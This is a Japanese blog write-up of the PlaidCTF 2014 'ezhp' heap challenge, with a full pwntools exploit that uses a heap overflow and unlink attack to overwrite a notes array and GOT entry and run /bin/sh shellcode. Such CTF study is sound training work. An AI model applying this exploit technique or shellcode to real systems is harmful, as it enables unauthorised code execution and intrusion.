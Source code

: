 ```yaml
---
layout: post
alias: "/blog/2016/08/17/plaidctf-2014-ezhp/"
date: "2016-08-17T00:43:10+09:00"
tags: [ "writeup", "ctf", "pwn", "heap", "plaidctf" ]
"target_url": [ "https://github.com/ctfs/write-ups-2014/tree/master/plaid-ctf-2014/ezhp" ]
---
```


# PlaidCTF 2014 ezhp

heap問のrevは疲れる。
キャンプの夜の短い自由時間に挑んだのだが、それで解くのは私には厳しかったので後から時間で殴った。

## solution

heap上の単なる文字列として表現されるノートを作成/修正/削除/表示できるプログラム。
簡易な独自実装heapを持ち、heap上buffer overflowの脆弱性がある。
ノートの修正でbuffer overflowさせ、ノートの削除でheap unlink attackして適当にどこかを書き換え、GOT overwriteなりでshellcodeを踏めばよい。


strippedなのでrevする。
問題となるのは`0x8048708 <myfree>`だけであるので、`0x804858b <myalloc>`の側はあまり読まなくてよい。
簡易な実装ではあるが双方向連結listの操作は通常通りであり、

``` c
    if (bk) bk->fd = fd;
    if (fd) fd->bk = bk;
```

は(chunkの大きさによらず)行われているので、これを用いて適当な領域への書き込みを行う。
global変数として存在するノートの配列`char *g_notes[]`あたりを書き換えてしまえば、あとはノートの修正部分で楽にshellが取れる。RELROもNX bitもない。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

g_notes  = 0x804a060 # char *g_notes[]
puts_got = 0x804a008

# http://shell-storm.org/shellcode/files/shellcode-811.php
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

p = process('./ezhp')

def add_note(size):
    p.recvuntil('Please choose an option.')
    p.sendline('1') # add a note
    p.recvuntil('Please give me a size.')
    p.sendline(str(size))

def remove_note(id):
    p.recvuntil('Please choose an option.')
    p.sendline('2') # remove a note
    p.recvuntil('Please give me an id.')
    p.sendline(str(id))

def change_note(id, data):
    p.recvuntil('Please choose an option.')
    p.sendline('3') # change a note
    p.recvuntil('Please give me an id.')
    p.sendline(str(id))
    p.recvuntil('Please give me a size.')
    p.sendline(str(len(data)))
    p.recvuntil('Please input your data.')
    p.send(data)

# make notes
add_note(11) # 0
add_note(11) # 1
add_note(11) # 2

# send payload to heap
payload = ''
payload += 'AAAA' # heap + 0x18
payload += 'AAAA'
payload += 'AAA\0'
payload += p32(0x19)
payload += p32(0xaaaaaaaa) # p32(heap + 0x3c)
payload += p32(0xbbbbbbbb) # p32(heap + 0x0c)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0x19)
payload += p32(g_notes) # p32(heap + 0x54)
payload += p32(g_notes - 4) # p32(heap + 0x24)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0x3b8)
payload += p32(0)
payload += p32(0xcccccccc) # p32(heap + 0x3c)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0)
change_note(0, payload)

# write &g_notes[0] into g_notes[0]
remove_note(2)

# rewrite g_notes entries
payload = ''
payload += p32(g_notes)
payload += p32(puts_got)
payload += shellcode
change_note(0, payload)

# jump to the shellcode
change_note(1, p32(g_notes + 8))

time.sleep(1)
p.sendline('id')
p.interactive()
```
